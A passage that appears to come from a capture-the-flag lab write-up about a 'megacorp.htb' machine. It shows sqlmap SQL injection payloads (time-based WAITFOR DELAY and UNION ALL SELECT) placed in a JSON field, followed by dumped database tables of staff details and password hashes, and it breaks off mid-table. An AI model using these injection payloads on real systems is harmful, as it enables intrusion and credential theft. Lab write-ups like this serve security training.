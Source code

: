 ```
    Payload: {"name":"' WAITFOR DELAY '0:0:5'-- tWyh"}

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: {"name":"-5737' UNION ALL SELECT 68,68,68,CHAR(113)+CHAR(107)+CHAR(113)+CHAR(107)+CHAR(113)+CHAR(99)+CHAR(103)+CHAR(105)+CHAR(67)+CHAR(121)+CHAR(77)+CHAR(74)+CHAR(122)+CHAR(117)+CHAR(85)+CHAR(75)+CHAR(99)+CHAR(110)+CHAR(99)+CHAR(76)+CHAR(72)+CHAR(99)+CHAR(70)+CHAR(69)+CHAR(77)+CHAR(120)+CHAR(120)+CHAR(107)+CHAR(106)+CHAR(68)+CHAR(103)+CHAR(66)+CHAR(101)+CHAR(104)+CHAR(118)+CHAR(89)+CHAR(79)+CHAR(117)+CHAR(78)+CHAR(113)+CHAR(76)+CHAR(101)+CHAR(67)+CHAR(71)+CHAR(100)+CHAR(113)+CHAR(106)+CHAR(120)+CHAR(106)+CHAR(113),68-- wUMy"}
```
{% endcode %}

Great! Now that we have this, we can attempt to enumerate the database. Here are the results from repeated use of `sqlmap`:

```
Tables:
[23:01:49] [INFO] fetching tables for databases: Hub_DB, master, model, msdb, tempdb


Dumping of Hub_DB:
Database: Hub_DB
Table: Colleagues
[17 entries]
+----+----------------------+----------------------+-------------+----------------------+
| id | name                 | email                | image       | position             |
+----+----------------------+----------------------+-------------+----------------------+
| 1  | Sarina Bauer         | sbauer@megacorp.htb  | sbauer.jpg  | Junior Developer     |
| 2  | Octavia Kent         | okent@megacorp.htb   | okent.jpg   | Senior Consultant    |
| 3  | Christian Kane       | ckane@megacorp.htb   | ckane.jpg   | Assistant Manager    |
| 4  | Kimberly Page        | kpage@megacorp.htb   | kpage.jpg   | Financial Analyst    |
| 5  | Shayna Stafford      | shayna@megacorp.htb  | shayna.jpg  | HR Manager           |
| 6  | James Houston        | james@megacorp.htb   | james.jpg   | QA Lead              |
| 7  | Connor York          | cyork@megacorp.htb   | cyork.jpg   | Web Developer        |
| 8  | Reya Martin          | rmartin@megacorp.htb | rmartin.jpg | Tech Support         |
| 9  | Zac Curtis           | zac@magacorp.htb     | zac.jpg     | Junior Analyst       |
| 10 | Jorden Mclean        | jorden@megacorp.htb  | jorden.jpg  | Full-Stack Developer |
| 11 | Alyx Walters         | alyx@megacorp.htb    | alyx.jpg    | Automation Engineer  |
| 12 | Ian Lee              | ilee@megacorp.htb    | ilee.jpg    | Internal Auditor     |
| 13 | Nikola Bourne        | nbourne@megacorp.htb | nbourne.jpg | Head of Accounts     |
| 14 | Zachery Powers       | zpowers@megacorp.htb | zpowers.jpg | Credit Analyst       |
| 15 | Alessandro Dominguez | aldom@megacorp.htb   | aldom.jpg   | Senior Web Developer |
| 16 | MinatoTW             | minato@megacorp.htb  | minato.jpg  | CEO                  |
| 17 | egre55               | egre55@megacorp.htb  | egre55.jpg  | CEO                  |
+----+----------------------+----------------------+-------------+----------------------+

Database: Hub_DB
Table: Logins
[17 entries]
+----+--------------------------------------------------------------------------------------------------+----------+
| id | password                                                                                         | username |
+----+--------------------------------------------------------------------------------------------------+----------+
| 1  | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 | sbauer   |
| 2  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa | okent    |
| 3  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | ckane    |
| 4  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 | kpage    |
```
